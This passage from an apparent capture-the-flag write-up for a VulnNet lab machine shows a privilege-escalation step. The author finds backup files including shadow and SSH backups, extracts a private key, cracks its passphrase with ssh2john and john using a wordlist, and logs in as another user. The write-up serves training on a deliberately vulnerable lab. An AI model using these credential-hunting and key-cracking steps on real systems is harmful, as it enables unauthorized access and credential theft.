 ### Finding Backup Files

Running `sudo -l` we're prompted for the password.  Next we'll try to find any interesting backup files written in the last 7 days.


```bash
find / -type f \( -iname "*.bak" -o -iname "*.tar.gz" \) -mtime -10080 -exec ls -ldb --color {} \; 2>/dev/null
---snip---
-rw-r--r-- 1 root root 16643 Feb 23  2018 /usr/share/usb_modeswitch/configPack.tar.gz
-rw------- 1 root shadow 1118 Jan 23  2021 /var/backups/shadow.bak
-rw-rw-r-- 1 server-management server-management 1484 Jan 24  2021 /var/backups/ssh-backup.tar.gz
-rw------- 1 root root 1831 Jan 23  2021 /var/backups/passwd.bak
-rw------- 1 root shadow 712 Jan 23  2021 /var/backups/gshadow.bak
-rw------- 1 root root 857 Jan 23  2021 /var/backups/group.bak
---snip---
```

Copying `/var/backups/ssh-backup.tar.gz` to `/dev/shm/` and unpacking reveals an `id_rsa` ssh key.

```bash
tar -xzf /dev/shm/ssh-backup.tar.gz
```
Copying over the `id_rsa` to our machine and attempting to use it to ssh requires a password.  We can use `ssh2john` and then `john` to crack this password.

### Cracking SSH Keys

```bash
python2.7 /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash

Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
---snip---
[REDACTED]     (id_rsa)
---snip---
```

Now we have the password and the file was owned by `server-management` lets try ssh into the machine.


```bash
ssh server-management@vulnnet.thm -i id_rsa
Enter passphrase for key "id_rsa":
ls
user.txt
cat user.txt
THM[REDACTED]
```
